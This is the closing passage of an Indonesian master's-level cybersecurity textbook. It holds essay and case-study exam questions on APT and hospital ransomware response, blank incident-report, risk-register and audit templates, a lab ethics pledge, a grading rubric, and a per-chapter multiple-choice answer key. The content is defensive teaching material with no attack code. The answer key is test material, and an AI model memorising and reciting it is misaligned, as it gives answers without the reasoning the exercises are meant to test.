**Soal 4 (Analisis Komprehensif):** Sebuah perusahaan energi nasional baru mengalami serangan APT. Investigasi awal menunjukkan bahwa penyerang telah ada di jaringan selama 8 bulan, memiliki akses ke sistem SCADA pembangkit listrik, dan telah mengeksfiltrasi dokumen operasional kritis. Dengan menggunakan konsep-konsep yang telah dipelajari (Kill Chain, MITRE ATT&CK, CIA Triad, NIST CSF, Risk Management), buat analisis insiden ini: apa yang salah, framework apa yang seharusnya mencegah/mendeteksi, dan langkah-langkah pemulihan apa yang harus dilakukan?

**Soal 5 (Perancangan):** Anda baru ditunjuk sebagai CISO sebuah universitas besar dengan 40.000 mahasiswa, 3.000 staf, dan penelitian yang didanai pemerintah. Anggaran keamanan Anda adalah Rp 2 miliar per tahun. Bagaimana Anda mengalokasikan anggaran tersebut, dan apa 5 prioritas pertama yang Anda akan kerjakan dalam 90 hari pertama?

---

## 9. Latihan Terapan / Studi Kasus UAS

### Studi Kasus: Program Keamanan Rumah Sakit Pemerintah

Rumah Sakit Umum Daerah (RSUD) dengan 1.200 tempat tidur, 3.000 karyawan, dan ~500.000 kunjungan pasien per tahun. Sistem: SIM RS (on-premise), PACS radiologi, perangkat medis terhubung jaringan (patient monitors, infusion pumps), portal pasien (web/app), dan koneksi ke BPJS Kesehatan via API.

Anggaran TI tahunan Rp 3 miliar; anggaran keamanan saat ini tidak ada (nol) — keamanan ditangani oleh IT admin generalis.

**Pertanyaan:**
1. **Program Keamanan 3 Tahun (C4-C5)**: Rancang program keamanan 3 tahun untuk RSUD ini. Tahun 1: fondasi dan quick wins. Tahun 2: maturation. Tahun 3: certification/compliance. Untuk setiap tahun, tentukan: prioritas kontrol yang diimplementasikan, anggaran yang dialokasikan (dari total Rp 3M/tahun), dan metrik keberhasilan. Justifikasi prioritas berdasarkan risk profile rumah sakit.

2. **Manajemen Insiden Kritis (C5)**: Pada tahun pertama implementasi program, ransomware berhasil menginfeksi server SIM RS pada Minggu dini hari. Sistem tidak dapat diakses; ada 200 pasien rawat inap yang data medisnya tidak dapat diakses; 50 pasien baru akan datang Senin pagi. Dengan sumber daya dan kontrol yang ada di Tahun 1 program Anda, bagaimana Incident Response yang Anda jalankan dalam 72 jam pertama? Siapa yang Anda hubungi, apa yang Anda lakukan, dan bagaimana Anda memastikan keselamatan pasien di tengah insiden IT?

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — C (Assume Breach):** "Assume Breach" adalah mentalitas defensif di mana sistem dirancang dengan asumsi bahwa penyerang sudah berhasil masuk. Fokus bergeser dari "mencegah semua intrusi" (tidak mungkin) ke "mendeteksi secepat mungkin dan membatasi dampak." Defense-in-Depth adalah tentang lapisan kontrol; Zero Trust adalah tentang tidak mempercayai siapapun secara default; Least Privilege adalah tentang hak akses minimum.

**Soal 2 — B:** MTTD (Mean Time to Detect) mengukur rata-rata waktu antara saat serangan berhasil (initial compromise) hingga saat organisasi mendeteksi bahwa ada serangan. MTTD yang rendah berarti organisasi memiliki visibility yang baik. MTTR (Mean Time to Respond) mengukur waktu setelah deteksi hingga insiden tertangani.

**Soal 3:** CIA Triad adalah *tujuan* keamanan — apa yang ingin dilindungi (Confidentiality, Integrity, Availability aset informasi). Risk Management adalah *proses* yang mengidentifikasi apa yang dapat mengancam CIA Triad dan menentukan respons yang proporsional. NIST CSF adalah *kerangka kerja* yang menyediakan struktur untuk mengorganisasi aktivitas keamanan (Govern, Identify, Protect, Detect, Respond, Recover) — selaras dengan siklus manajemen risiko. ISO 27001 adalah *standar manajemen* yang formalisasi semua ini dalam sistem yang dapat disertifikasi dan diaudit. Analoginya: CIA Triad = tujuan perjalanan; Risk Management = peta dan analisis bahaya; NIST CSF = rute yang direkomendasikan; ISO 27001 = regulasi berkendara yang memastikan Anda mengikuti standar keselamatan yang diakui.

---

## 11. Ringkasan Bab dan Mata Kuliah

Bab 16 mengintegrasikan perjalanan intelektual 15 bab sebelumnya ke dalam pemahaman holistik tentang keamanan siber sebagai disiplin yang berkelanjutan, multi-dimensi, dan berbasis risiko.

**Sintesis Mata Kuliah Cybersecurity Principles:**

| Bab | Konsep Utama | Relevansi Praktis |
|---|---|---|
| 1-2 | CIA Triad, AAA, Prinsip Keamanan | Fondasi bahasa dan tujuan keamanan |
| 3-4 | Threat Landscape, CVE/CVSS | Memahami musuh dan kerentanan |
| 5-6 | MITRE ATT&CK, Kill Chain | Berpikir seperti penyerang untuk bertahan lebih baik |
| 7-8 | NIST CSF, Gap Analysis | Framework untuk mengorganisasi dan mengukur program keamanan |
| 9-10 | ISO 27001/27002 | Standar internasional untuk ISMS yang dapat disertifikasi |
| 11 | Risk Assessment & Management | Dasar keputusan berbasis data, bukan intuisi |
| 12 | Arsitektur Jaringan, Hardening | Implementasi kontrol teknis fundamental |
| 13 | Kriptografi Terapan | Fondasi matematis keamanan komunikasi dan data |
| 14 | Cloud Security | Paradigma keamanan baru untuk infrastruktur modern |
| 15 | Tren Ancaman Kontemporer | Kesadaran tentang evolusi ancaman yang terus berubah |
| 16 | Integrasi Komprehensif | Menyatukan semua konsep ke dalam program nyata |

---

## 12. Refleksi Profesional Penutup

**Pertanyaan Refleksi 1:** Setelah menyelesaikan mata kuliah ini, identifikasi satu konsep atau paradigma yang paling mengubah cara Anda berpikir tentang keamanan siber. Mengapa konsep tersebut paling berpengaruh bagi Anda secara pribadi?

**Pertanyaan Refleksi 2:** Seorang profesional keamanan siber di tingkat magister memiliki tanggung jawab yang melampaui teknis — mereka mempengaruhi kebijakan, investasi, dan budaya keamanan organisasi. Dari semua topik yang dipelajari, apa yang akan menjadi kontribusi Anda yang paling berarti bagi keamanan siber di Indonesia — baik di tingkat organisasi, industri, maupun nasional?

**Pesan Penutup:**

Keamanan siber bukan hanya tentang melindungi sistem komputer — ini tentang melindungi kehidupan digital manusia, aset organisasi, dan infrastruktur yang menjadi tulang punggung masyarakat modern. Setiap kerentanan yang Anda temukan dan perbaiki, setiap kebijakan keamanan yang Anda implementasikan, dan setiap insiden yang Anda cegah memiliki dampak nyata pada kehidupan nyata.

Profesi ini menuntut pembelajaran seumur hidup — ancaman berevolusi, teknologi berubah, dan paradigma keamanan terus berkembang. Sikap *growth mindset*, integritas profesional, dan komitmen terhadap etika adalah bekal yang sama pentingnya dengan keahlian teknis.

*Selamat menempuh perjalanan sebagai profesional keamanan siber.*

---


---

# LAMPIRAN

---

## LAMPIRAN A — TEMPLATE LAPORAN PRAKTIKUM

```
================================================
LAPORAN PRAKTIKUM KEAMANAN SIBER
================================================
Mata Kuliah    : Cybersecurity Principles (VSFDKS03)
Program Studi  : Magister Terapan Forensik Digital dan Keamanan Siber
Institusi      : Politeknik Elektronika Negeri Surabaya (PENS)

INFORMASI PRAKTIKUM
-------------------
Judul Praktikum : _______________________________________________
Bab / Pertemuan : Bab ___ / Pertemuan ___
Tanggal         : _______________________________________________
Nama Mahasiswa  : _______________________________________________
NIM             : _______________________________________________

I. TUJUAN PRAKTIKUM
-------------------
(Jelaskan tujuan spesifik yang ingin dicapai)

II. PRASYARAT DAN LINGKUNGAN LAB
---------------------------------
Sistem Operasi  : _______________________________________________
Tools / Software: _______________________________________________
Dataset / Log   : _______________________________________________

III. PROSEDUR PELAKSANAAN
-------------------------
Langkah 1: ___________________________________________________
Langkah 2: ___________________________________________________
... (sertakan screenshot / output di setiap langkah kritis)

IV. HASIL DAN ANALISIS
-----------------------
(Jelaskan hasil yang diperoleh dan analisis Anda)

V. BUKTI YANG DIKUMPULKAN
--------------------------
- Screenshot: ___
- Log file: ___
- Artefak lain: ___

VI. PEMBAHASAN
--------------
(Diskusikan temuan, hubungkan dengan teori di bab terkait)

VII. KENDALA DAN SOLUSI
-----------------------
(Jelaskan tantangan yang dihadapi dan bagaimana mengatasinya)

VIII. KESIMPULAN
----------------
(Ringkas temuan dan pembelajaran dari praktikum ini)

IX. PERNYATAAN ETIKA
--------------------
Saya menyatakan bahwa praktikum ini dilakukan:
- Hanya pada lingkungan yang diotorisasi (lab/VM pribadi)
- Tidak pada sistem nyata tanpa izin tertulis
- Sesuai dengan kebijakan keamanan yang berlaku
- Tidak untuk tujuan ofensif atau menyerang sistem pihak lain

Tanda tangan: ___________________  Tanggal: ___________________
================================================
```

---

## LAMPIRAN B — TEMPLATE RISK REGISTER

```
================================================================
RISK REGISTER — KEAMANAN INFORMASI
================================================================
Organisasi  : _________________________________
Versi       : _________________________________
Tanggal     : _________________________________
Penyusun    : _________________________________
Disetujui   : _________________________________

KRITERIA RISIKO
---------------
Likelihood  : 5=Very High, 4=High, 3=Medium, 2=Low, 1=Very Low
Impact      : 5=Very High, 4=High, 3=Medium, 2=Low, 1=Very Low
Risk Level  : Critical (≥20), High (12-19), Medium (6-11), Low (<6)

TABEL RISIKO
------------
| ID   | Tanggal | Aset | Ancaman | Kerentanan | CIA | L | I | Risk |
|------|---------|------|---------|-----------|-----|---|---|------|
| R-001|         |      |         |           | C/I |   |   |      |
| R-002|         |      |         |           |     |   |   |      |
...

DETAIL TREATMENT
-----------------
ID: R-001
Pemilik Risiko  : ___________________________
Opsi Treatment  : [Mitigate / Transfer / Avoid / Accept]
Kontrol Rencana : ___________________________
Target Selesai  : ___________________________
Status          : [Open / In Progress / Closed]
Residual Risk   : ___________________________
Approved by     : ___________________________

================================================================
```

---

## LAMPIRAN C — TEMPLATE LAPORAN ANALISIS ARSITEKTUR JARINGAN

```
================================================================
LAPORAN ANALISIS ARSITEKTUR KEAMANAN JARINGAN
================================================================
Organisasi  : _________________________________
Tanggal     : _________________________________
Analis      : _________________________________

I. RINGKASAN EKSEKUTIF
------------------------
(2-3 paragraf: kondisi saat ini, temuan utama, rekomendasi top 3)

II. METODOLOGI
--------------
(Jelaskan pendekatan analisis yang digunakan)

III. TEMUAN
-----------
| No | Temuan | Lokasi | Risiko | Bukti |
|----|--------|--------|--------|-------|
| 1  |        |        | High   |       |
...

IV. ANALISIS DETAIL SETIAP TEMUAN
-----------------------------------
Temuan #1:
- Deskripsi: ___
- Lokasi: ___
- Risiko yang ditimbulkan (terhadap CIA): ___
- Standar/best practice yang dilanggar: ___
- Rekomendasi perbaikan: ___
- Prioritas: [Critical/High/Medium/Low]
- Effort implementasi: [Rendah/Sedang/Tinggi]

V. ROADMAP PERBAIKAN
---------------------
| Prioritas | Temuan | Rekomendasi | Timeline | Owner |
|-----------|--------|-------------|----------|-------|
| 1 (Segera)|        |             | 1 minggu |       |
| 2 (Kritis)|        |             | 1 bulan  |       |
...

================================================================
```

---

## LAMPIRAN D — TEMPLATE INCIDENT REPORT

```
================================================================
LAPORAN INSIDEN KEAMANAN SIBER
================================================================
Nomor Insiden   : INC-YYYY-NNNNN
Klasifikasi     : [Critical/High/Medium/Low]
Status          : [Open/Investigating/Contained/Closed]
Tanggal Deteksi : ___________________________
Tanggal Laporan : ___________________________

I. RINGKASAN INSIDEN
---------------------
Deskripsi singkat (maks. 3 kalimat): ___________________________

II. KRONOLOGI
-------------
| Waktu | Kejadian |
|-------|----------|
|       |          |
...

III. ANALISIS TEKNIS
--------------------
Initial Vector      : ___________________________
Sistem Terdampak    : ___________________________
Data Terdampak      : ___________________________
Teknik yang Digunakan (ATT&CK): _______________
Indikator Kompromi (IoC):
  - IP Address: ___
  - Domain: ___
  - Hash: ___
  - File: ___

IV. DAMPAK
----------
Dampak Bisnis       : ___________________________
Dampak pada CIA     : C: [ ] I: [ ] A: [ ]
Data yang Terekspos : ___________________________
Durasi Gangguan     : ___________________________
Estimasi Kerugian   : ___________________________

V. TINDAKAN YANG DIAMBIL
-------------------------
Containment:
  - [Waktu] Tindakan: ___
Eradication:
  - [Waktu] Tindakan: ___
Recovery:
  - [Waktu] Tindakan: ___

VI. ROOT CAUSE ANALYSIS
------------------------
Root Cause          : ___________________________
Contributing Factor : ___________________________
Kontrol yang Gagal  : ___________________________

VII. LESSONS LEARNED
--------------------
Apa yang berjalan baik: ___________________________
Apa yang perlu diperbaiki: ________________________

VIII. REKOMENDASI
------------------
| ID | Rekomendasi | Prioritas | Owner | Target |
|----|-------------|-----------|-------|--------|
| 1  |             | High      |       |        |
...

================================================================
```

---

## LAMPIRAN E — TEMPLATE AUDIT CHECKLIST KEAMANAN SIBER

```
================================================================
AUDIT CHECKLIST KEAMANAN SIBER
================================================================
Organisasi  : ___________________________
Auditor     : ___________________________
Tanggal     : ___________________________
Referensi   : ISO/IEC 27001:2022, NIST CSF v2.0, CIS Benchmarks

STATUS: Y=Ya/Terpenuhi, N=Tidak/Belum, P=Parsial, N/A=Tidak Berlaku

A. TATA KELOLA (GOVERNANCE)
----------------------------
[ ] A.01 Ada kebijakan keamanan informasi yang disetujui manajemen
[ ] A.02 Kebijakan dikomunikasikan kepada seluruh karyawan
[ ] A.03 Ada pemilik aset untuk setiap aset informasi kritis
[ ] A.04 Risk assessment dilakukan minimum 1x per tahun
[ ] A.05 Ada risk register yang dikelola aktif
[ ] A.06 Manajemen puncak menerima laporan keamanan berkala

B. KONTROL AKSES
-----------------
[ ] B.01 MFA aktif untuk semua akun privileged
[ ] B.02 MFA aktif untuk seluruh akun (minimal email/SaaS)
[ ] B.03 Review hak akses dilakukan minimum 6 bulan sekali
[ ] B.04 Akun mantan karyawan dicabut dalam 24 jam
[ ] B.05 Password policy memenuhi standar minimum (min 12 karakter)
[ ] B.06 Tidak ada shared account untuk aktivitas privileged

C. KEAMANAN ENDPOINT
--------------------
[ ] C.01 Antivirus/EDR aktif di semua endpoint
[ ] C.02 Patch OS diterapkan dalam SLA (critical: 72 jam, high: 2 minggu)
[ ] C.03 Enkripsi disk aktif di laptop
[ ] C.04 Tidak ada software tidak sah yang terinstal
[ ] C.05 CIS Benchmark Level 1 diterapkan

D. KEAMANAN JARINGAN
---------------------
[ ] D.01 Firewall dikonfigurasi dengan prinsip deny-all default
[ ] D.02 Segmentasi VLAN diterapkan (minimal user/server/management)
[ ] D.03 Port SSH/RDP tidak terbuka ke internet
[ ] D.04 VPN atau bastion host untuk remote access
[ ] D.05 IDS/IPS aktif dan alert dimonitor
[ ] D.06 Log jaringan disimpan minimum 90 hari

E. BACKUP DAN PEMULIHAN
------------------------
[ ] E.01 Backup dilakukan sesuai jadwal (minimal harian)
[ ] E.02 Backup diuji restore minimal 1x per kuartal
[ ] E.03 Ada salinan backup offsite atau offline
[ ] E.04 RTO dan RPO didefinisikan dan telah diuji
[ ] E.05 Backup tidak dapat diakses/dimodifikasi dari jaringan produksi

F. MONITORING DAN RESPONS
--------------------------
[ ] F.01 SIEM atau log management terpusat aktif
[ ] F.02 Alert keamanan dimonitor 24/7 atau ada on-call rotation
[ ] F.03 Incident Response Plan terdokumentasi
[ ] F.04 IRP telah diuji (tabletop/live drill) dalam 12 bulan terakhir
[ ] F.05 Kontak pihak eksternal (BSSN, CERT) tersedia

G. AWARENESS DAN PELATIHAN
---------------------------
[ ] G.01 Security awareness training untuk semua karyawan baru
[ ] G.02 Refresh training tahunan untuk semua karyawan
[ ] G.03 Phishing simulation dilakukan dan hasilnya digunakan
[ ] G.04 Tim keamanan mendapat pelatihan teknis yang relevan

RINGKASAN:
Total item: ___  Y: ___  N: ___  P: ___  N/A: ___
Score: ___% (Y + 0.5×P) / (Total - N/A)

================================================================
```

---

## LAMPIRAN F — PERNYATAAN ETIKA PRAKTIKUM

```
================================================================
PERNYATAAN ETIKA PRAKTIKUM KEAMANAN SIBER
================================================================
Program Studi Magister Terapan Forensik Digital dan Keamanan Siber
Politeknik Elektronika Negeri Surabaya

Saya yang bertanda tangan di bawah ini:
Nama   : _______________________________
NIM    : _______________________________
Semester: _______ Tahun Akademik: _______

MENYATAKAN BAHWA:

1. OTORISASI
   Saya akan melaksanakan seluruh praktikum keamanan siber
   HANYA pada:
   - Lingkungan lab yang telah disediakan dan diotorisasi
   - Virtual machine atau sandbox milik sendiri yang tidak
     terhubung ke sistem produksi
   - Sistem yang secara eksplisit telah diberikan izin tertulis
     oleh pemiliknya

2. LARANGAN EKSPLISIT
   Saya TIDAK AKAN:
   - Menguji teknik keamanan pada sistem pihak lain tanpa izin
   - Menggunakan pengetahuan yang diperoleh untuk tujuan ofensif
   - Mengakses, memodifikasi, atau mengganggu sistem yang tidak
     diotorisasi
   - Mengeksploitasi kerentanan yang ditemukan di sistem nyata
     tanpa melapor melalui jalur responsible disclosure
   - Menyebarkan malware, exploit, atau tools ofensif
   - Melanggar privasi data pihak lain

3. RESPONSIBLE DISCLOSURE
   Jika dalam perjalanan akademik saya menemukan kerentanan
   nyata pada sistem organisasi atau publik, saya berkomitmen
   untuk melaporkannya melalui jalur responsible disclosure
   yang tepat, bukan mengeksploitasinya.

4. KERAHASIAAN
   Informasi sensitif yang diperoleh selama praktikum
   (kredensial, konfigurasi sistem, data pribadi simulasi)
   akan dijaga kerahasiaannya dan tidak disebarluaskan.

5. KONSEKUENSI
   Saya memahami bahwa pelanggaran terhadap pernyataan ini
   dapat mengakibatkan:
   - Sanksi akademik (nilai E, skorsing, atau DO)
   - Pertanggungjawaban hukum sesuai UU ITE dan peraturan
     perundang-undangan yang berlaku di Indonesia

Ditetapkan di: _________________________
Tanggal      : _________________________

Tanda tangan mahasiswa: ________________
(                      )

Tanda tangan dosen pengampu: ___________
(                            )

================================================================
```

---

## LAMPIRAN G — RUBRIK PENILAIAN TUGAS DAN EVALUASI

### G.1 Rubrik Risk Assessment (Eval-4, Eval-6)

| Kriteria | Sangat Baik (90-100) | Baik (75-89) | Cukup (60-74) | Perlu Perbaikan (<60) |
|---|---|---|---|---|
| **Identifikasi Aset & Risiko** | Identifikasi komprehensif; semua aset kritis tercakup; format lengkap | Sebagian besar aset dan risiko teridentifikasi | Identifikasi terbatas; beberapa aset/risiko kritis terlewat | Sangat sedikit aset/risiko; format tidak lengkap |
| **Analisis Risiko** | Likelihood dan impact terjustifikasi dengan baik; ALE dihitung akurat | Sebagian besar analisis tepat; sedikit inkonsistensi | Analisis ada tetapi banyak yang tidak terjustifikasi | Analisis superfisial; tidak ada justifikasi |
| **Keterkaitan Framework** | Pemetaan ke NIST CSF dan ISO 27002 akurat dan menyeluruh | Pemetaan sebagian besar akurat | Pemetaan ada tetapi terbatas atau ada kekeliruan | Pemetaan tidak ada atau sangat tidak akurat |
| **Risk Treatment Plan** | Rekomendasi spesifik, dapat diimplementasikan, diprioritaskan; ada justifikasi biaya-manfaat | Rekomendasi baik tetapi kurang detail atau prioritas | Rekomendasi umum; tidak spesifik | Rekomendasi sangat umum atau tidak relevan |
| **Etika & Legalitas** | Konsisten mempertimbangkan etika, privasi, dan aspek hukum | Mempertimbangkan beberapa aspek etika/hukum | Hanya sedikit pertimbangan etika/hukum | Tidak ada pertimbangan etika/hukum |

---

## KUNCI JAWABAN GLOBAL DAN PEMBAHASAN LATIHAN PILIHAN GANDA

### Rekap Jawaban Per Bab

| Bab | Soal 1 | Soal 2 | Soal 3 (PG jika ada) |
|---|---|---|---|
| Bab 1 | B (Availability) | C (Data classification) | — |
| Bab 3 | A (Nation-state APT) | B (Spear Phishing) | — |
| Bab 4 | B (CVSS v3.1 = 9.8) | C (KEV catalog) | — |
| Bab 5 | C (TA0006) | A (Diamond Model) | — |
| Bab 6 | B (Delivery phase) | A (Weaponization) | — |
| Bab 7 | B (CSF v2.0 tambah Govern) | C (Tier 3) | — |
| Bab 8 | C (Gap Analysis) | B (Current Profile) | — |
| Bab 9 | B (Klausul 6) | C (SoA) | — |
| Bab 10 | B (A.8.12) | A (A.6.5) | — |
| Bab 11 | B (Rp 125 juta) | C (Transfer) | — |
| Bab 12 | B (IDS vs IPS) | B (Network Segmentation) | C (Level 2 lebih ketat) |
| Bab 13 | B (ECB - pola terlihat) | C (Argon2id) | — |
| Bab 14 | B (Customer patch OS) | C (Secret scanning) | — |
| Bab 15 | B (Double extortion) | B (OT: Availability > Confidentiality) | — |
| Bab 16 | C (Assume Breach) | B (MTTD = deteksi) | — |

*Catatan: Untuk pembahasan lengkap setiap jawaban, lihat Bagian 10 (Kunci Jawaban dan Pembahasan) pada masing-masing bab.*

---

## DAFTAR PUSTAKA

### Pustaka Utama

1. Anderson, R. (2020). *Security Engineering: A Guide to Building Dependable Distributed Systems* (3rd ed.). Wiley.

2. Shostack, A. (2014). *Threat Modeling: Designing for Security*. Wiley.

3. Kim, D., & Solomon, M. G. (2018). *Fundamentals of Information Systems Security* (3rd ed.). Jones & Bartlett Learning.

4. Bishop, M. (2019). *Computer Security: Art and Science* (2nd ed.). Addison-Wesley Professional.

5. Stallings, W., & Brown, L. (2018). *Computer Security: Principles and Practice* (4th ed.). Pearson.

### Standar dan Framework

6. NIST. (2024). *NIST Cybersecurity Framework (CSF) Version 2.0*. National Institute of Standards and Technology. https://doi.org/10.6028/NIST.CSWP.29

7. NIST. (2012). *Guide for Conducting Risk Assessments (NIST SP 800-30 Rev. 1)*. National Institute of Standards and Technology.

8. NIST. (2020). *Zero Trust Architecture (NIST SP 800-207)*. National Institute of Standards and Technology.

9. ISO/IEC. (2022). *ISO/IEC 27001:2022 — Information Security, Cybersecurity and Privacy Protection — Information Security Management Systems — Requirements*. International Organization for Standardization.

10. ISO/IEC. (2022). *ISO/IEC 27002:2022 — Information Security, Cybersecurity and Privacy Protection — Information Security Controls*. International Organization for Standardization.

11. ISO. (2018). *ISO 31000:2018 — Risk Management — Guidelines*. International Organization for Standardization.

12. MITRE Corporation. (2024). *MITRE ATT&CK Framework*. https://attack.mitre.org

13. CIS. (2024). *CIS Controls Version 8.1*. Center for Internet Security. https://www.cisecurity.org/controls

14. Lockheed Martin. (2011). *Intelligence-Driven Computer Network Defense Informed by Analysis of Adversary Campaigns and Intrusion Kill Chains*. Lockheed Martin Corporation.

15. OWASP. (2022). *OWASP Cloud-Native Application Security Top 10*. https://owasp.org/www-project-cloud-native-application-security-top-10/

### Pustaka Pendukung dan Publikasi Ilmiah

16. Verizon. (2024). *2024 Data Breach Investigations Report (DBIR)*. Verizon Business.

17. ENISA. (2024). *ENISA Threat Landscape 2024*. European Union Agency for Cybersecurity.

18. CISA. (2024). *Known Exploited Vulnerabilities (KEV) Catalog*. Cybersecurity and Infrastructure Security Agency. https://www.cisa.gov/known-exploited-vulnerabilities-catalog

19. NIST. (2024). *Post-Quantum Cryptography Standards (FIPS 203, 204, 205)*. National Institute of Standards and Technology.

20. Bernstein, D. J., & Lange, T. (2017). Post-quantum cryptography. *Nature*, 549(7671), 188–194. https://doi.org/10.1038/nature23461

21. Hutchins, E. M., Cloppert, M. J., & Amin, R. M. (2011). Intelligence-driven computer network defense informed by analysis of adversary campaigns and intrusion kill chains. *Proceedings of the 6th International Conference on Information Warfare and Security*, 1(1), 80–90.

22. Rid, T., & Buchanan, B. (2015). Attributing cyber attacks. *Journal of Strategic Studies*, 38(1–2), 4–37. https://doi.org/10.1080/01402390.2014.977382

### Regulasi dan Kebijakan Indonesia

23. Pemerintah Republik Indonesia. (2022). *Undang-Undang Nomor 27 Tahun 2022 tentang Perlindungan Data Pribadi*. Lembaran Negara RI Tahun 2022 Nomor 196.

24. Badan Siber dan Sandi Negara (BSSN). (2021). *Kerangka Kerja Keamanan Siber Nasional Indonesia*. BSSN.

25. OJK. (2022). *Peraturan OJK Nomor 11/POJK.03/2022 tentang Penyelenggaraan Teknologi Informasi oleh Bank Umum*. Otoritas Jasa Keuangan.

---

*Daftar pustaka ini disusun berdasarkan pustaka utama dan pendukung yang tercantum dalam RPS VSFDKS03, diperkaya dengan sumber otoritatif yang relevan. Untuk sumber online, disarankan untuk mengakses versi terbaru mengingat standar dan framework diperbarui secara berkala.*

---

**[AKHIR BUKU AJAR]**

---

*Buku Ajar Cybersecurity Principles (VSFDKS03)*  
*Program Studi Magister Terapan Forensik Digital dan Keamanan Siber*  
*Politeknik Elektronika Negeri Surabaya*  
*Versi 1.0 — Diselaraskan dengan RPS VSFDKS03 Tahun 2025*

